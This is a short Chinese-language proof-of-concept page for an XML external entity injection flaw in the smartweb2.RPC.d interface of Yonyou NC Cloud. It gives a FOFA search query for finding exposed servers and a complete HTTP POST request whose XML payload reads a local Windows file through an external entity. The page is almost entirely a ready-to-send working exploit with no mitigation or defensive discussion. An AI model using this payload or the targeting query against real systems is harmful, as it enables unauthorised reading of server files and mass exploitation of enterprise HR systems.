 ## 用友NC_CLOUD_smartweb2.RPC.d_XML外部实体注入

用友NC系统的smartweb2.RPC.d接口存在XML外部实体注入漏洞。

## fofa
```
app="用友-UFIDA-NC"
```

## poc
```
POST /hrss/dorado/smartweb2.RPC.d?__rpc=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25
Content-Length: 258
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

__viewInstanceId=nc.bs.hrss.rm.ResetPassword~nc.bs.hrss.rm.ResetPasswordViewModel&__xml=<!DOCTYPE z [<!ENTITY Password SYSTEM "file:///C://windows//win.ini" >]><rpc transaction="10" method="resetPwd"><vps><p name="__profileKeys">%26Password;</p ></vps></rpc>
```
![3a124b876c9485904654afbcc4d41771](../../images/bfe04702-24a5-435a-a67e-e26bfa9447c6.png)
